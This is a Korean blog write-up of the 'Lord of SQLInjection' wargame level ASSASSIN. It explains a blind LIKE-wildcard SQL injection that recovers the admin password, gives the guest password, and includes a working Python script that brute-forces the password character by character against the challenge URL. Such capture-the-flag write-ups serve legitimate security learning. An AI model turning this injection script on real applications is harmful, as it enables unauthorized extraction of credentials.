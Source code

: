 ```yaml
---
title: "Lord of SQLInjection - ASSASSIN"
categories: 
  - SQLi
tags:
  - SQLi
  - 웹해킹
toc: true
---
```


# ASSASSIN
## 문제 
![img](/assets/images/los/assassin1.png)

- like 문을 통해서 admin의 password를 추출하는 문제다.

1. python으로 guest의 패스워드를 구하였지만 정답이 아니었다. 그 결과로 admin의 password를 추출해야 하는 것을 확인함.
2. for문을 돌릴 시 처음 루프에서 Hello guest는 확인되지만 Hello admin은 확인되지 않음. 따라서 guest와 admin의 password는 겹치는 부분이 있고 guest로 출력되는 것을 확인.

## 정답

- 패스워드를 전부 찾는 방법과 %를 이용하여 guest와 admin의 다른 비밀번호를 이용하여 푸는 방법이 있다.

- 참고로 guest의 비밀번호는 90d2fe10이다.

![img](/assets/images/los/assassin2.png)

![img](/assets/images/los/assassin3.png)

![img](/assets/images/los/assassin4.png)

## 코드

```python
import requests

password = ''

url = "https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php"

cookie = {'PHPSESSID' : 'PHP 세션 아이디'}

admin_pwd=''

for i in range(1, 9):
    isFound = False
    tmp = ''
    for j in range(48, 127):
        # _ 필터링
        if j == 95:
            continue
        query = "?pw=%s%s%%" %(admin_pwd, chr(j))
        URL = url+query
        r = requests.get(url=URL, cookies=cookie)
        
        if 'Hello guest' in str(r.content):
            tmp = chr(j)
        if 'Hello admin' in str(r.content):
            admin_pwd += chr(j)
            isFound = True
            break
    if isFound == False:
        admin_pwd += tmp
print ('admin_password : %s' %admin_pwd)
```